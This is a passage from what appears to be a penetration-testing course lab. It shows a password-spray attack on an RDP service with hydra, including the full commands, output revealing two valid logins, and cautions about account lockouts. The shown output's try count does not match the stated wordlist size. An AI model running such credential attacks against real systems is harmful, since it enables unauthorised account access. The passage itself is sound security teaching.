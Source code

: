 Let's demonstrate this scenario by executing a spray attack against the RDP service on BRUTE2. We'll first shut down BRUTE (VM #1) and start BRUTE2 (VM #2) under Resources. In this example, we'll assume we have already obtained a valid user password (_SuperS3cure1337#_), and we will attempt that password against a variety of potential user account names.

We'll again use **hydra**, setting a list of usernames with **\-L /usr/share/wordlists/dirb/others/names.txt** (which contains over eight thousand username entries) and try a single password with **\-p "SuperS3cure1337#"**. We'll use the RDP protocol this time and set the target with **rdp://192.168.50.202**. For hydra to successfully identify the username, the username must be on the list. The usernames _daniel_ and _justin_ are not in the **names.txt** file. We need to add them. Let's do that from the command like.

```
kali@kali:~$ echo -e "daniel\njustin" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt

kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.50.202:3389/
...
[3389][rdp] host: 192.168.50.202   login: daniel   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.50.202   login: justin   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```

> Listing 3 - Spraying a password on RDP service

The password attack for the selected list will take about 15 minutes to uncover the two valid credentials." To expedite the process, we can create a list that only contains two lines, "daniel" and "justin".

In this case, we identified two usernames with the password we discovered in the database leak. We should always try to leverage every plaintext password we discover by spraying them against the target's systems. This could reveal users that use the same password across multiple systems. However, we must also use caution when leveraging broad-range attacks.

Dictionary attacks generate a lot of noise in terms of logs, events, and traffic. While a huge amount of network traffic can bring down a network, the reactions of various security technologies could be even more undesirable. For example, a basic brute force protection program could lock a user's account after three failed login attempts. In a real-world penetration test, this could lead to a situation in which we lock users out of critical production systems. Before indiscriminately launching tools, we must perform a thorough enumeration to identify and avoid these risks.

In this section, we performed dictionary attacks on the common SSH and RDP network services. While Hydra makes the process straightforward for most protocols, some protocols require more information. We'll explore this with HTTP POST login forms in the next section.

Before we head into the first exercises of this Module, we need to be aware that the process of attacking authentication on a target shouldn't take longer than three minutes in the exercises or the challenge labs. If the process takes longer, double-check your command and arguments or consider a different approach.
